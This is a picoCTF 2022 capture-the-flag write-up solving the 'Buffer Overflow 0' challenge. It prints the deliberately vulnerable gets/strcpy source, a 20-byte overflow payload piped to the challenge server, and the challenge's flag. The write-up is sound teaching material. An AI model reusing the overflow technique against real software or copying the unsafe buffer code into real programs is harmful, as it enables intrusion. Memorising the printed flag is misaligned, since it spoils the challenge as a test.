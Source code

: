 ```yaml
---
title: picoCTF 2022 - Buffer Overflow 0
tags: [pico22, bof, pwn]
---
```


Let's gather some information before attempting to execute the binary

```bash
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that it's a 32 bit ELF file dinamically linked and not stripped. If we attempt to execute it, we are prompted for a text file named `flag.txt`. Let's create it and run the file again.

```bash
$ echo "Buffer Overflow HERE" >> flag.txt

$ ./vuln
Input: zanef
The program will exit now
```

Nothing strange happens. We check the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

There's only one function that should stands out and it's `sigsegv_handler`. This function receives an integer and prints out the flag. We can see that in this line `sigsegv_handler` is passed as an argument to another function named `signal`

```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

With a simple search we can read that `signal` _"sets a function to handle signal i.e. a signal handler with signal numer sig"_ and `SIGSEV` is _"a signal propagated when a program tries to read or write outside the memory it is allocated for it"_. With these two definitions we can deduce that this program, when there's an invalid storage read or write, calls the handler that prints the flag.

We have to write or read outside the program boundaries. Check the source code again and we can see that the function `vuln` uses `strcpy` to copy the input string into a buffer. `strcpy` is a function vulnerable to buffer overflow so if we pass an input larger than the buffer that sould contain it, `strcpy` will try to write it anyway and will overwrite the memory addresses after the limits.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We can see that in the `main` function it's used `gets` that is another buffer overflow vulnerable function.

```c
char buf1[100];
  gets(buf1);
```

Let's exploit `strcpy` by feeding the program with inputs longer than 16 bytes.

```bash
$ python -c 'print "A" * 16' | ./vuln
Input: The program will exit now

$ python -c 'print "A" * 20' | ./vuln
Input: Buffer Overflow HERE
``` 

With an input of 20 bytes the program prints out the content of our `flag.txt` file. This means that the program tried to write outside its boundaries and generated a SIGSEV signal. We can confirm our assumption with this command

```bash
$ sudo dmesg
segfault at 0 ip 00007fc88e67c375 sp 00007ffec5897fd8 error 4 in libc-2.33.so[7fc88e52e000+158000] 
```

We can now exploit the remote service and get some points

```bash
$ python -c 'print "A" * 20' | nc saturn.picoctf.net 65355
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```